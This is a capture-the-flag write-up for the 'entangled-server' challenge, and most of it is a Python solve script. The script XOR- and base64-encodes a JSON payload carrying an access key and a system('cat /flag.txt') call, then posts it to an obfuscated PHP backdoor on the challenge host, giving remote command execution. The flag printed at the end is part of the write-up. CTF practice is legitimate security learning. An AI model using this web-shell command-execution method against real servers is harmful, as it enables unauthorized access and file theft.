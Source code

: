# entangled-server

Solved by: @vicevirus

## Question:
A NICC agent found an old abandoned server with some very suspicious files on it. We have found the file it was hosting on a webserver but it seems like it was very heavily obfuscated. Can you figure out how to get in?

The flag is located at /flag.txt on the server.

## Solution:
```
import requests
import base64
import json

# Step 1: Define the URL and POST parameters
target_url = "http://entangled-server.niccgetsspooky.xyz:1337/index.php"
param_name = "x"
cc688 = "5p1n-th3-51lly-5tr1ng5"

# Step 2: Create the payload dictionary
payload_dict = {
    "ak": cc688,
    "a": "e",
    "d": "system('cat /flag.txt');"
}

# Step 3: Serialize the payload (convert to JSON)
serialized_data = json.dumps(payload_dict).encode('utf-8')

# Step 4: Define XOR keys
key1 = cc688.encode('utf-8')
key2 = param_name.encode('utf-8')

# Step 5: Apply XOR
xor_encoded = bytes([b ^ key1[i % len(key1)] ^ key2[i % len(key2)] for i, b in enumerate(serialized_data)])

encoded_payload = base64.b64encode(xor_encoded).decode('utf-8')

data = {param_name: encoded_payload}
response = requests.post(target_url, data=data)

print(response.text)
NICC{TH3_5P1D3R5_G0T_1N_00P5}
```

**Flag:** `NICC{TH3_5P1D3R5_G0T_1N_00P5}`
